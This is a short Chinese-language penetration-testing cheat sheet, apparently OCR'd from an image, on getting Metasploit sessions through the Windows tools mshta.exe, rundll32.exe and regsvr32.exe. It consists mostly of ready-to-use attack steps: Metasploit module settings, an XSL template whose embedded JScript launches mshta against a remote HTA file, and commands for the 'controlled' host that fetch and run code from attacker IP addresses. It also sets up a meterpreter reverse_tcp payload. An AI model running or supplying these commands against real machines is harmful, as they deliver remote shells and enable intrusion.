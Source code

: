 # Metasploit

●  **mshta.exe**

●  mshta.exe是用于负责解释运行HTA文件的Windows OS实用程序·可以运行javascript或VBScript的HTML文件

●  

●  use exploit/windows/misc/hta_server

●  set srvhost 192.168.0.104

●  exploit -j

●  目标主机上运行 mshta.exe http://192.168.0.104:8080/SxUxU5AvkuW2LCX.hta

●  

●  方法二：

●  复制以下模板XSL文件，修改其中hta文件的地址为上图中的地址即可。<?xml version='1.0'?><stylesheetxmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"xmlns:user="placeholder"version="1.0"><output method="text"/><ms:script implements-prefix="user" language="JScript"><![CDATA[var r = new ActiveXObject("WScript.Shell").Run("mshta.exe http://192.168.123.43:8080/OtUpxMXOEhocL.hta");]]> </ms:script></stylesheet>

●  将上面文件保存为xsl文件，并放到apache根目录/var/www/html。

●  被控端执行 wmic os get /format:"http://172.20.0.27/ptsh.xsl"

●  **Rundll32.exe**

●  Rundll32.exe与Windows操作系统相关，它允许调用从DLL导出的函数（16位或32位），并将其储存在适当的内存库中。

●  use exploit/windows/smb/smb_delivery

●  set srvhost 192.168.1.121

●  exploit -j

●  被控端执行 rundll32.exe \\192.168.1.121\qFMnFO\test.dll,0

●  **Regsvr32.exe**

●  Regsvr32.exe是一个命令行应用程序，用于注册和注销OLE控件，如Windows注册表中的dll和ActiveX控件。

●  Regsvr32.exe安装在Windows XP和Windows后续版本的 %systemroot%\System32 文件夹中。

●  

●  use exploit/multi/script/web_delivery

●  set srvhost 192.168.1.121

●  set target 3

●  set payload windows/x64/meterpreter/reverse_tcp

●  set lhost 192.168.1.121

●  exploit –j

●  
